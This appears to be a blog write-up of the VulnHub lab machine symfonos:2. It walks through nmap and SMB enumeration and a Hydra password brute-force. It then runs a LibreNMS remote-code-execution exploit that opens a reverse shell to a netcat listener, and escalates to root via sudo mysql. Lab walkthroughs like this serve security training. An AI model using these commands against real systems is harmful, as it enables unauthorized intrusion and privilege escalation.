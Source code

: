 ```yaml
---
layout : post
title: symfonos2
image : symfonos2.png
date: 2021-04-15 02:05:08 +05:30
tags: [SSH BruteForce,SSH PortForwording]
---
```


# Nmap

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.3.5
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:5f:87:20:e5:8c:fa:68:47:7d:71:62:08:ad:b9 (RSA)
|   256 04:2a:bb:06:56:ea:d1:93:1c:d2:78:0a:00:46:9d:85 (ECDSA)
|_  256 28:ad:ac:dc:7e:2a:1c:f6:4c:6b:47:f2:d6:22:5b:52 (ED25519)
80/tcp  open  http        WebFS httpd 1.21

rabbit hole
|_http-server-header: webfs/1.21
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:59:3C:A4 (Oracle VirtualBox virtual NIC)
Service Info: Host: SYMFONOS2; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
`rabbitHole`

![]({{site.baseurl}}/img/vulnhub/symfonos2/rabbithole.png)

```
Host script results:
|_clock-skew: mean: 1h39m49s, deviation: 2h53m12s, median: -10s
|_nbstat: NetBIOS name: SYMFONOS2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos2
|   NetBIOS computer name: SYMFONOS2/x00
|   Domain name: /x00
|   FQDN: symfonos2
|_  System time: 2021-04-13T02:49:58-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-13T07:49:59
|_  start_date: N/A

```

# Enumeration
<h4>Smb Enumeration</h4>
![]({{site.baseurl}}/img/vulnhub/symfonos2/smbclient.png)
>smbclient -U"anonymous%anonymous" //10.0.2.48/anonymous

you can find the log.txt inside `/backup Directory`

![]({{site.baseurl}}/img/vulnhub/symfonos2/backup_log.png)

<h4>SSH Bruteforcing</h4> 

>Hydra -l aeolus -P ~/rockyou.txt ftp://10.0.2.48

![]({{site.baseurl}}/img/vulnhub/symfonos2/sshBruteforce.png)

Found Password 

`aeolus:sergioteamo`

# PrivilageEsclation

<h4>PortForwording</h4>
![]({{site.baseurl}}/img/vulnhub/symfonos2/openports.png)

you can find the port 8080 is running on serverLocalHost ,so to enumerate the port you need to [**PortForword**](https://linuxize.com/post/how-to-setup-ssh-tunneling/) to your local machine via ssh 

> ssh -L 3333:127.0.0.1:8080 aeolus@10.0.2.48

After accessing the web server on localhost:8080 through our browser, we can see, that `librenms is running. Using searchsploit reveals, that this application is vulnerable to remote code execution`, which comes really handy! We log in to the web application by providing the same credentials used for ssh. Downloading the exploit, it requires our cookies, listener ip and port to run. We setup our netcat listener and fire up the exploit:


```
 python 47044.py http://localhost:3333 "librenms_session=eyJpdiI6InZ1U3U3eTM4NTU2TFdDaTJBdmVjZWc9PSIsInZhbHVlIjoiWjBDVm9CcmlDQVEyUFF0UGpYODBhTE11RDg4TUM2VWtcL2NwMHhVZit3UDlVN0JcLzdHOWFVajZ2TFpcL1l6TCt1NGlwOVhjdVo3cjBPN0w5UHNBM2d0YkE9PSIsIm1hYyI6ImQ0NWE3ZWQ5M2EyNzA1NDZjODg5ZmQzN2JkMDQxNzQ1NWEzNGNjMjY2OWZiN2JkNDBkOGNkM2UyZjEyNjhmODUifQ==; XSRF-TOKEN=eyJpdiI6IjEyZm1ZWlo2dU9MVDJaTmpPZnhYTEE9PSIsInZhbHVlIjoiaG1za3VnZ1JVdk05UFwvUXNTUFF2TUlLVDRpelRmV0prMkU2N3QreWt1NjdaODNjY0pWRUJXTWQ3S3JcL2JtWnYyclpMMWJPY0hOOXY4RW9aaHk4UGU3Zz09IiwibWFjIjoiYjRhNTU0MjYwMzM1OWRjZTQ1MDU1ZGU1NDMwY2E1MDk5N2EzNmYzMTk5NGM5YWY5MTczMzAxMmY3NGQzY2RjNyJ9; PHPSESSID=ern5j06g3mth2e6jn5b1sre5t3" 10.0.2.48 80
```

got the shell

now by `sudo -l` command got to know the sql can be executed with root privilage without password

> command :  sudo mysql -e "/! /bin/bash"


 ```
$ sudo -l
Matching Defaults entries for cronus on symfonos2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin/:/usr/local/bin/:/usr/sbin/:/usr/bin/:/sbin/:/bin
User cronus may run the following commands on symfonos2:
    (root) NOPASSWD: /usr/bin/mysql
$ sudo mysql -e "/! /bin/bash"
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/proof.txt
    Congrats on rooting symfonos:2!

           ,   ,
         ,-`{-`/
      ,-~ , / {-~~-,
    ,~  ,   ,`,-~~-,`,
  ,`   ,   { {      } }                                             }/
 ;     ,--/`/ /    / /                                     }/      /,/
;  ,-./      / /  { {  (                                  /,;    ,/ ,/
; /   `       } } `, `-`-.___                            / `,  ,/  `,/
 /|         ,`,`    `~.___,---}                         / ,`,,/  ,`,;
  `        { {                                     __  /  ,`/   ,`,;
        /   / /                                 _,`, `{  `,{   `,`;`
       {     } }       /~/         .-:::-.     (--,   ;/ `,}  `,`;
       //._./ /      /` , /      ,:::::::::,     `~;   /},/  `,`;     ,-=-
        `-..-`      /. `  ./_   ;:::::::::::;  __,{     `/  `,`;     {
                   / , ~ . ^ `~`/:::::::::::<<~>-,,`,    `-,  ``,_    }
                /~~ . `  . ~  , .`~~/:::::::;    _-~  ;__,        `,-`
       /`/    /~,  . ~ , '  `  ,  .` /::::;`   <<<~```   ``-,,__   ;
      /` .`/ /` .  ^  ,  ~  ,  . ` . ~/~                       //, `,__
     / ` , ,`/.  ` ~  ,  ^ ,  `  ~ . . ``~~~`,                   `-`--, /
    / , ~ . ~ / , ` .  ^  `  , . ^   .   , ` .`-,___,---,__            ``
  /` ` . ~ . ` `/ `  ~  ,  .  ,  `  ,  . ~  ^  ,  .  ~  , .`~---,___
/` . `  ,  . ~ , /  `  ~  ,  .  ^  ,  ~  .  `  ,  ~  .  ^  ,  ~  .  `-,

```



